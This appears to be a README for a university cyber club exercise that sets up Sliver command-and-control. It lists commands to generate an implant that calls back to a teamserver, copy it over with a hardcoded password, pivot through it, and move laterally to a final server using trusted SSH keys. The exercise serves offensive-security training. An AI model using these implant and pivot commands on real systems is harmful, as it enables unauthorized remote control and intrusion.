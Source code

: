 # Cyber Ops Unit Sliver Setup
All the commands and files needed to set up the exercise, reminder that this exercise will **not** work over the TAMU network (because we can't port forward without access to the routers) and will have to be done over hotspot, where everyone will (probably) be on the same subnet, meaning they can directly SSH to the first machine

Make sure to run `sudo systemctl start sliver.service` to get Sliver working

Commands used:\
Generate Sliver Implant: `generate --os linux --arch arm64 --name [Implant Name] --http [IP of Teamserver]`\
Copy over to Intermediate server: `scp [Implant Name] aeverwooddesktop@[IP of Intermediate Server]:/home/aeverwooddesktop/Documents` (Password is 'password')\ 
Run Implant: `./[Implant Name] &`\
View sessions: `sessions`\
Use the Implant: `use [session number]`\
Create a pivot through that implant: `pivots tcp --lport [Pivot Port]`\
Generate an implant for that pivot: `generate --os linux --arch arm64 --tcp-pivot [IP Address of Intermediate Server:[Pivot Port] --name [Pivot Implant Name]`\
Upload that implant to his desktop with the upload command (More blendy than another SCP): `upload ./[Pivot Implant Name in Local Directory] ./[Pivot Implant Name in Remote Directory]`\
Use our implant to scp it over to the Final Server: `execute -o scp [Pivot Implant Name] aeverwooddesktop@[IP of Final Server]:/home/aeverwooddesktop/Documents` (His desktop is trusted because of the scp keys so there is no need for a password)`\
Naviagte to the tmp directory and see what is in one of the root_cron_job files: `execute -o cat root_cron_job_1.sh`\
